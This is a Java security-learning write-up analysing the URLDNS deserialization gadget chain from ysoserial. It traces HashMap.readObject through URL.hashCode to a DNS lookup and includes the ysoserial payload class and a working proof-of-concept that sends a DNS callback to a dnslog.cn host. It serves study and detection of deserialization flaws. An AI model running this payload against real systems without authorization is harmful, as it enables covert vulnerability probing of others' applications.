 # Java Security Learning—URLDNS Chain

Author: H3rmesk1t

# Preface
> `URLDNS` is a exploit chain in `ysoserial`, which is usually used to detect whether there is a `Java` deserialization vulnerability. This exploit chain has the following characteristics

```php
[1] The URLDNS utilization chain can only initiate DNS requests, and cannot perform other utilizations.
[2] No limit on jdk version, uses built-in Java classes, and no requirements for third-party dependencies
[3] The target has no echo, and it can be used to verify whether there is a deserialization vulnerability through DNS requests.
```

#Principle
> `java.util.HashMap` implements the `Serializable` interface, rewritten `readObject`, and the `hash` function of `key` is called when deserialized, while the `hashCode` of `java.net.URL` is called `getHostAddress` during calculation to resolve the domain name, thus issuing a `DNS` request.

# Analysis process
> Here we follow the `Gadget` of `URLDNS` in the `ysoserial` project to analyze

```java
Gadget Chain:
    HashMap.readObject()
    HashMap.putVal()
    HashMap.hash()
    URL.hashCode()
```
> Follow up on `HashMap` first and look at its own implemented `readObject()` function. Here, the `key` stored in `HashMap` is deserialized through `K key = (K) s.readObject();` through the `for` loop, and then call the `putVal()` and `hash()` functions.

<img src="./images/1.png" alt="">

> Follow up on the `hash()` function first to see how it is implemented. When `key!=null`, the `hashCode()` function will be called

<img src="./images/2.png" alt="">

> Follow up on the `hashCode()` function. Since the URLDNS in `ysoserial` uses the `URL` object, I follow up on the `java/net/URL.java` in the `Java` base class `URL`. Since the value of `hashCode` is defaulted to `-1`, `hashCode = handler.hashCode(this);`

<img src="./images/3.png" alt="">

> See how the `handler.hashCode()` function is implemented, here is a `Demo` code to debug

```java
import java.net.URL;

public class URLDemo {
    public static void main(String[] args) throws Exception {
        URL url = new URL("http://6ppzw1.dnslog.cn");
        url.hashCode();
    }
}
```
> First look at the result after the request, and successfully triggered the `DNS` request. Let's see how it is implemented

<img src="./images/4.png" alt="">

> Debugging and following up the `hashCode()` function in `java/net/URLStreamHandler.java`. You can see that a function `getHostAddress()` is called here to perform `DNS` parsing and returning the corresponding `IP`

<img src="./images/5.png" alt="">

> In ysoserial, it is triggered by the `put()` function. In fact, the implementation of this step is the same as before, and it is implemented by the `hash()` function.

<img src="./images/6.png" alt="">

> However, the above analysis process seems to have nothing to do with deserialization. In fact, when HashMap` passes in a URL object, it will perform a `DNS` parse, and HashMap` implements the `Serializable` interface and rewrites the `readObject` interface. That is to say, when a `Java` application has a deserialization vulnerability, you can pass in a serialized `HashMap` data (put the `URL` object as a `key` into the `HashMap`). When the incoming data reaches the deserialization vulnerability point of the `Java` application, the program will call the `readObject()` function overridden by HashMap to deserialize and read the data, and then trigger the `key.hashCode()` function to perform a `DNS` parse

# ysoserial project code analysis
> The URLDNS code in the ysoserial project is not that simple, and there are some other code snippets to see what these "extra" code are useful.

```java
public class URLDNS implements ObjectPayload<Object> {
        public Object getObject(final String url) throws Exception {
                URLStreamHandler handler = new SilentURLStreamHandler();
                HashMap ht = new HashMap();
                URL u = new URL(null, url, handler);
                ht.put(u, url);
                Reflections.setFieldValue(u, "hashCode", -1);
                return ht;
        }
        public static void main(final String[] args) throws Exception {
                PayloadRunner.run(URLDNS.class, args);
        }
        static class SilentURLStreamHandler extends URLStreamHandler {

                protected URLConnection openConnection(URL u) throws IOException {
                        return null;
                }
                protected synchronized InetAddress getHostAddress(URL u) {
                        return null;
                }
        }
}
```
> Here we inherit the `URLStreamHandler` class and rewrite the `openConnection()` and `getHostAddress()` functions. The purpose of rewriting here is: when `HashMap#put`, we will also call the `getHostAddress()` function for a `DNS` resolution. Here we overwrite the original function through the `getHostAddress()` function, so that it does not perform `DNS` resolution, and avoid `DNS` resolution when `Payload` is created.

> The `setFieldValue()` function in code `Reflections.setFieldValue(u, "hashCode", -1);` is a function in a reflection class customized by the `ysoserial` project.

```java
public class Reflections {
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }
}
```
> The above code sets the value of the `hashCode` of the `URL` class to `-1` by reflection. This is because the `hashCode()` function has been called once when `HashMap#put`. The value of `hashCode` will no longer be `-1`. This will cause the `hashCode` value to be directly returned when deserialized by the `HashMap` readObject()` function, and no longer calls `handler.hashCode(this)`. Therefore, reflection is used to set the `hashCode` value to `-1`

> Finally, use `PayloadRunner.run()` to deserialize

## POC chain

```java
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.text.SimpleDateFormat;
import java.
util.Date;
import java.util.HashMap;

public class URLDemo {

    public static void main(String[] args) throws Exception {
        Date nowTime = new Date();
        HashMap hashmap = new HashMap();
        URL url = new URL("http://lttx9f.dnslog.cn");
        SimpleDateFormat simpleDateFormat = new SimpleDateFormat("yyyy-MM-dd hh:mm:ss");
        Field filed = Class.forName("java.net.URL").getDeclaredField("hashCode");
        filed.setAccessible(true); // Bypass the permissions to check Java language permission control
        filed.set(url, 209);
        hashmap.put(url, 209);
        System.out.println("The current time is: " + simpleDateFormat.format(nowTime));
        filed.set(url, -1);

        try {
            FileOutputStream fileOutputStream = new FileOutputStream("./dnsser");
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
            objectOutputStream.writeObject(hashmap);
            objectOutputStream.close();
            fileOutputStream.close();

            FileInputStream fileInputStream = new FileInputStream("./dnsser");
            ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
            fileInputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

> From the request result, it can be seen that in the `Payload` generation stage, no `DNS` resolution is initiated, but a request is made during the subsequent deserialization process.

<img src="./images/7.png" alt="">